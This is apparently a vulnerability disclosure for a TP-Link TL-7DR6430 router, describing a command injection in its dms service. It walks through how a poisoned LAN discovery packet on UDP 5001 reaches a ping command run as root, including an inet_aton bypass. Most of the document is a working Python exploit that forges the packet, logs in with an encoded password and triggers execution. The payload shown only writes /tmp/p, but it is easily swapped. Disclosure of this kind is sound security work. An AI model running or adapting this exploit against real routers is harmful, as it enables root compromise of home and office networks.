




Submittion Date: 2026.6.24 
Vendor: TP-Link TL-7DR6430 
Version: V1.0_1.0.17 
Firmware: TL_7DR6430_V1.0_1.0.17_Build_20250919_Rel.56588.bin 
Download Link: https://resource.tp-link.com.cn/m/productClass/product_document?id=1759992600856491   


The `dms` service has a command injection vulnerability in the `auto_ip_gateway_status` status reader. The router receives LAN device discovery advertisements on UDP port 5001 (unauthenticated) and stores the advertised IP field (TLV type 8) verbatim into an internal discovery node cache at `node + 83`. The `autoIpGatewayStatusReadJson` function later reads this cached field and formats it directly into a shell command similar to `ping %s -c 1 -W 1 &`, then calls `system`. The discovery IP field is length-limited (15 bytes) but is not strictly validated as an IP address and is not shell-escaped. An attacker on the LAN can poison the discovery cache with shell metacharacters; an authenticated DS read of `istart.auto_ip_gateway_status` then triggers the vulnerable `ping` command, executing the injected payload with `root` privileges.

This is a two-stage vulnerability: an **unauthenticated** stage poisons the node cache, and an **authenticated** stage triggers execution.

The reported vulnerable flow is:

```text
[1] SOURCE — unauthenticated LAN devDiscover (UDP 5001 broadcast)
    attacker sends an advertisement frame whose TLV8 (IP) = "<payload>"
        |
        v
[2] parse_advertisement_frame            (dms  @0x65d99c)
    parse_msg_element_0(dest+14, len, 8, node+83, 15)       // TLV type 8 (IP) → node+83
                                                            // 15-byte field; no IP validation; no escaping
        |   malicious IP string now lives in the g_node cache at offset +83
        v
[3] TRIGGER — authenticated DS read
    POST /stok={stok}/ds  {"method":"get","istart":{"name":["auto_ip_gateway_status"]}}
        |
        v
[4] autoIpGatewayStatusReadJson          (dms  @0x667bec)   iterates g_node (16 nodes)
    inet_aton(node+83, &inp)                                @0x667cac   // parses leading "1" as 0.0.0.1
    arpDoExactMatch(inp.s_addr, ...)   /* fails: IP not ready */
        |
        v
[5] SINK — format + execute
    snprintf(cmd, 0x80, "ping %s -c 1 -W 1 &", node+83)     @0x667ce4   // %s = attacker-controlled, unquoted
    system_0(cmd)                                           @0x667cf4   // /bin/sh -c  "ping 1 &>/tmp/p -c 1 -W 1 &"
        |
        v
    injected payload runs with root privileges (dms runs as root)
```

**[2] SOURCE — `parse_advertisement_frame` (@0x65d99c)** parses the attacker-supplied TLV type 8 (IP) from the devDiscover packet and stores it verbatim into the node cache at offset +83 via `parse_msg_element_0(..., 8, node+83, 15)`, with **no IP/CIDR validation and no shell-character filtering**. The 15-byte field width is why the payload must be short (`1 &>/tmp/p` = 10 bytes fits):



**[5] FORMAT — `autoIpGatewayStatusReadJson` (@0x667bec)** reads the cached value back from `node + 83` and formats it directly into a shell command via bare `%s`, with **no quoting or escaping** (@0x667ce4):



**[5] SINK — `system_0`** (@0x667cf4) receives the constructed command and invokes `/bin/sh -c`, where the injected payload is expanded and executed as root:



## Detailed Byte-Level Walkthrough

### PoC packet structure (build_packet output, 81 bytes)

```text
offset  buf+0..13        header (14 bytes)
        01 01 0E XX       [0]=1(ver) [1]=1(msgType=adv) [2]=14(hdrlen)
        XX E1 2B 83 C7    [4-7]=MAGIC 0xC7832BE1 (LE)
        XX XX             [8-9]=checksum
        00 43             [10-11]=body length=67 (BE)
─────────────────────────────────────────────────
offset  buf+14            body (TLV list)
        00 05 00 12 <17B>   TLV5  MAC = fake_mac+"POC-DEVTEST"
        00 06 00 03 50 4F 43                 TLV6  Model   = "POC"
        00 0B 00 03 48 57 31                 TLV11 HW_Ver  = "HW1"
        00 07 00 01 01                       TLV7  type    = 0x01
        00 08 00 0A 31 20 26 3E 2F 74 6D 70 2F 70   TLV8 IP="1 &>/tmp/p"  ★
        00 09 00 03 4C 41 4E                 TLV9  domain  = "LAN"
        00 0A 00 02 41 4C                    TLV10 alias   = "AL"
```

TLV8 bytes: `type=00 08 (BE), len=00 0A, payload="1 &>/tmp/p"` (hex: 31 20 26 3E 2F 74 6D 70 2F 70).

### Stage-by-stage data flow

**① devDiscoverUdpHandle (@0x664b5c)** — `recvfrom` on UDP 5001 → global `buf_` (@0xeffcd2, max 1472 bytes). No authentication; records sender address + lan/wan flag (v4). Passes `(fd, &buf_, &addr, 0, v4)` to stage ②. This is a dumb pipe — zero content inspection.

**② protocol_handler (@0x660f68)** — validates packet *format* (not identity):

- magic header: `buf[0]==1 && buf[1]∈[1,7] && buf[2]==14 && buf[4-7]==0xC7832BE1`
- body length (buf[10-11]) ≤ 1472 (network) / 1500 (datalink)
- checksum (buf[8-9]) via `sub_659934` / `sub_5B6FE4`
- All four are constructable by the attacker (MAGIC is a hardcoded constant, checksum is a standard IP checksum re-implemented in the PoC). Pass → stage ③.

**③ devDiscover_msIdleDispatch (@0x660308)** — reads `buf[1]` (msgType), dispatches:
- `=1` → `parse_advertisement_frame` (CMD17 path)
- `=2` → `parse_discovery_frame`
- `=3` → `parse_set_ip_frame` (gated by `get_manufactory_status`, rejected in retail)
- PoC sets `header[1]=1` to select the advertisement branch.

**④ parse_advertisement_frame (@0x65d99c)** — parses TLVs, stores fields into a node in `g_node` cache. The IP field:
```c
parse_msg_element_0(dest+14, body_len, 8, node+83, 15)
//                            ↑ find type=8  ↑ store here  ↑ max 15 bytes
```
- iterates body TLVs, matches type=8 (TLV8), copies payload verbatim to `node+83`
- **no IP/CIDR validation, no shell-character filtering, no escaping**
- result: `node+83` = `"1 &>/tmp/p"` (confirmed via `dd /proc/$pid/mem` memory dump)

**⑤ autoIpGatewayStatusReadJson (@0x667bec)** — triggered by authenticated DS read of `istart.auto_ip_gateway_status`. Iterates `g_node` (16 slots, each 0x224 bytes):
```c
if (node[20] == 1) {                          // active node only
    inet_aton(node+83, &inp);                 // @0x667cac  ★ bypass point
    if (arpDoExactMatch(inp.s_addr, ...)) {   // @0x667cbc  ARP lookup fails
        snprintf(cmd, 0x80, "ping %s -c 1 -W 1 &", node+83);  // @0x667ce4
        system_0(cmd);                                       // @0x667cf4
    }
}
```

### inet_aton bypass (the key trick)

`inet_aton("1 &>/tmp/p")` **succeeds**. glibc `inet_aton` parses left-to-right, stops at the first non-numeric character (space), and returns success as long as it parsed a valid numeric prefix:
- `"1"` → `0.0.0.1` (parsed)
- `" &>/tmp/p"` → ignored (non-numeric)
- returns success, `inp.s_addr = 0.0.0.1`

This is why the payload **must start with a digit**: `;cmd` or `&cmd` would make `inet_aton` fail at the first character, and the code would never reach the ping branch.

`arpDoExactMatch(0.0.0.1)` fails (0.0.0.1 is not a real device, no ARP entry) → enters the ping branch:
```text
snprintf → "ping 1 &>/tmp/p -c 1 -W 1 &"
system   → /bin/sh -c "ping 1 &>/tmp/p -c 1 -W 1 &"
                     ↑      ↑
                  ping 0.0.0.1   redirect stdout+stderr → /tmp/p  (injection works)
```

Exploit the vulnerability by sending a crafted devDiscovery packet and then triggering the status reader
```python
import json
import random
import re
import socket
import struct
import time

import requests


# You need to modify the router password first.
TARGET = "192.168.1.1"
PASSWORD = "CHANGE_ME"

# This benign payload creates /tmp/p when the ping command is executed.
# The TLV8 payload must be at most 15 bytes.
SOURCE_IP = "1"
PROOF_PATH = "/tmp/p"

DEFAULT_KEY = (
    "yLwVl0zKqws7LgKPRQ84Mdt708T1qQ3Ha7xv3H7NyU84p21BriUWBU43odz3iP4r"
    "BL3cD02KZciXTysVXiV8ngg6vL48rPJyAUw0HurW20xqxv9aYb4M9wK1Ae0wlro"
    "510qXeU07kV57fQMc8L6aLgMLwygtc0F10a0Dg70TOoouyFhdysuRMO51yY5ZlOZ"
    "ZLEal1h0t9YQW0Ko7oBwmCAHoic4HYbUyVeU3sfQ1xtXcPcf1aT303wAQhv66qzW"
)
AUTH_SALT = "RDpbLfCPsJZ7fiv"
MAGIC = 0xC7832BE1


def security_encode(a, b, key=DEFAULT_KEY):
    out = []
    for i in range(max(len(a), len(b))):
        m = n = 187
        if i >= len(a):
            n = ord(b[i])
        elif i >= len(b):
            m = ord(a[i])
        else:
            m = ord(a[i])
            n = ord(b[i])
        out.append(key[(m ^ n) % len(key)])
    return "".join(out)


def checksum(buf):
    total = 0
    for i in range(0, len(buf) - 1, 2):
        total += buf[i] | (buf[i + 1] << 8)
    if len(buf) & 1:
        total += buf[-1] << 8
    while total >> 16:
        total = (total & 0xFFFF) + (total >> 16)
    return (~total) & 0xFFFF


def tlv(t, payload):
    return struct.pack(">HH", t, len(payload)) + payload


def build_packet(ip_payload):
    if len(ip_payload) > 15:
        raise RuntimeError("TLV8 payload is too long")

    fake_mac = bytes([0x02, 0x12, 0x34, 0x56, 0x78, random.randrange(0x80, 0xFF)])
    mac_payload = fake_mac + b"POC-DEVTEST"

    body = b"".join(
        [
            tlv(5, mac_payload),
            tlv(6, b"POC"),
            tlv(11, b"HW1"),
            tlv(7, b"\x01"),
            tlv(8, ip_payload),
            tlv(9, b"LAN"),
            tlv(10, b"AL"),
        ]
    )

    header = bytearray(14)
    header[0] = 1
    header[1] = 1
    header[2] = 14
    header[4:8] = struct.pack("<I", MAGIC)
    header[10:12] = struct.pack(">H", len(body))

    packet = bytearray(header + body)
    packet[8:10] = struct.pack("<H", checksum(packet))
    return bytes(packet)


def login():
    password = security_encode(AUTH_SALT, PASSWORD)
    response = requests.post(
        f"http://{TARGET}/",
        json={"method": "do", "login": {"password": password}},
        timeout=5,
    )
    print(response.text)
    data = response.json()
    if data.get("error_code") != 0 or "stok" not in data:
        raise RuntimeError("login failed")
    return data["stok"]


def trigger_readjson(stok):
    response = requests.post(
        f"http://{TARGET}/stok={stok}/ds",
        json={"method": "get", "istart": {"name": ["auto_ip_gateway_status"]}},
        timeout=5,
    )
    print(response.text)


def main():
    if not re.fullmatch(r"/[A-Za-z0-9_./-]+", PROOF_PATH):
        raise RuntimeError("invalid proof path")

    payload = f"{SOURCE_IP} &>{PROOF_PATH}".encode()
    packet = build_packet(payload)

    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_BROADCAST, 1)
    for dst in [TARGET, "192.168.1.255"]:
        for _ in range(5):
            sock.sendto(packet, (dst, 5001))
            time.sleep(0.1)

    stok = login()
    trigger_readjson(stok)

    print("Check the router shell:")
    print("ls -l /tmp/p")
    print("rm -f /tmp/p")


if __name__ == "__main__":
    main()
```
The exploitation is shown below.

